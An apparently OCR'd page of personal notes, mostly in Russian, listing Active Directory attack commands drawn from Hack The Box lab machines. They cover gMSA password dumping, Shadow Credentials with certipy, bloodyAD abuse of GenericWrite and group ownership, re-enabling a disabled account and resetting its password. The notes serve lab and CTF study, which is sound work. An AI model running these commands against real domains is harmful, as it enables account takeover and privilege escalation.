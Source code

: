     получить NTLM закрытой учетки GMSA
    python gMSADumper.py -u 'mark.adams' -p 'password' -d haze.htb -l dc01.haze.htb

    прочитать пароль gMSA
    nxc ldap -u javier.mmarshall -p 'Password123' -k --gmsa dc01.mirage.htb

# GenericWrite
# Shadow Credential
     certipy-ad shadow auto -username P.AGILA@fluffy.htb -password 'prometheusx-303' -account WINRM_SVC
     
 # добавляем себя в группу DEVELOPERS
  bloodyAD -d puppy.htb -u levi.james -p 'KingofAkron2025!' --host 10.10.11.70 add groupMember 'DEVELOPERS' 'levi.james'

   Иногда GenericWrite не даёт прямое добавление, но позволяет изменить владельца группы (через SetObjectOwner), а затем добавить себя:

   # Шаг 1: Стать владельцем группы
python3 bloodyAD.py -d puppy.htb -u levi.james -p 'KingofAkron2025!' --host <DC_IP> setObjectOwner 'DEVELOPERS' 'levi.james'

# Шаг 2: Теперь добавить себя
python3 bloodyAD.py -d puppy.htb -u levi.james -p 'KingofAkron2025!' --host <DC_IP> addGroupMember 'DEVELOPERS' 'levi.james'


# Проверить в отношении гого пользователь можеть писать ACL (выполняет запрос к контроллеру домена Active Directory для получения списка всех объектов, к которым у текущего пользователя (mark.bbond) есть права на запись).

    bloodyAD --host dc01.mirage.htb -u mark.bbond -p '1day@atime' -k -d mirage.htb get writable

# Команда используется для получения информации об объекте Active Directory с именем javier.mmarshall в домене mirage.htb. 
    bloodyAD --host dc01.mirage.htb -u mark.bbond -p '1day@atime' -k -d mirage.htb get object javier.mmarshall

# Убрать или заменить атрибут ACCOUNTDISABLE
    bloodyAD -u mark.bbond -p '1day@atime' --host dc01.mirage.htb -d mirage.htb -k remove uac javier.mmarshall -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from javier.mmarshall's userAccountControl

# Заменить Password
    bloodyAD -u mark.bbond -p '1day@atime' --host dc01.mirage.htb -d mirage.htb -k set password javier.mmarshall 'Password123'
